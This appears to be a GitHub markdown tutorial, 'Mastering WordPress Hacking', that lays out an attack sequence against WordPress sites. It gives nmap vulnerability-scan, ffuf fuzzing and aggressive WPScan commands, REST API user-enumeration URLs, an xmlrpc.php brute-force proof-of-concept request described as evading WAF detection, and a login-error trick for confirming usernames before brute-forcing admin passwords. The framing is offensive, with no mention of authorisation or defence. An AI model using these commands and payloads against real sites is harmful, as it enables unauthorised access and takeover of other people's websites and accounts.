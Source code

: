 **Mastering WordPress Hacking – All Techniques and Tools**

**1. How to Identify if a Site is Using WordPress:**

* By visiting `http://target.com` and appending `/license.txt` to the root directory, you can confirm if the site uses WordPress.

* You can also inspect the source code of the page and search for the word “wordpress” to determine both the usage and the version.

* By installing the **Wappalyzer** extension for Firefox and visiting the target site, you can detect if it’s running WordPress, its version, what WAF (Web Application Firewall) it uses, and other related technologies.

**2. Wappalyzer**

Helps you identify if a WAF is being used on the site, the WordPress version, and other critical information.

**3. Port Scanning:**

* Use `nmap` to scan open ports. With the command below, if there are vulnerabilities, `nmap` will automatically show CVEs and exploit links based on the versions of the open ports:

```
nmap -sS -sV -O -p- --min-rate 1000 -T4 --script "default,vuln" -oA fullscan target.com
```

**4. Directory Fuzzing:**

```
ffuf -w directory-wordlist.txt -u http://target.com/FUZZ -mc 200
```

**5. User Enumeration (Manual):**

```
http://target.com/?rest_route=/wp/v2/users  
http://target.com/wp-json/wp/v2/users
```

Testing these two endpoints in the URL will help you gather information about the site’s admin and users if REST API is enabled. This is useful for identifying usernames during brute force attacks :)

**6. XMLRPC Check and Brute Force:**

If `xmlrpc` is active on the site (you can verify it by accessing the `/xmlrpc.php` endpoint), it allows for high-speed brute force attacks while avoiding WAF detection :)

**POC (Proof of Concept):**

```
POST /xmlrpc.php HTTP/1.1  
Host: example.com  
Content-Length: 250

<?xml version="1.0"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
    <param><value><string>admin</string></value></param>
    <param><value><string>password123</string></value></param>
  </params>
</methodCall>
```

**7. Aggressive Scan with WPScan:**

```
wpscan --url http://target.com -e at -e ap --api-token=<api_token> --plugins-detection aggressive --force
```

You can find CVEs related to the vulnerabilities discovered and write or use available exploits accordingly

**8. WordPress Admin Login**

When accessing the WordPress admin login page, first try username – `test`, password – `test`. If the system returns an error like “user test does not exist,” then that username isn’t registered. Next, test the usernames found via user enumeration. For example, if trying the username `webadmin` returns “incorrect password,” that means the user `webadmin` exists, and the only remaining step is to brute force the password and gain access to the admin panel ;)
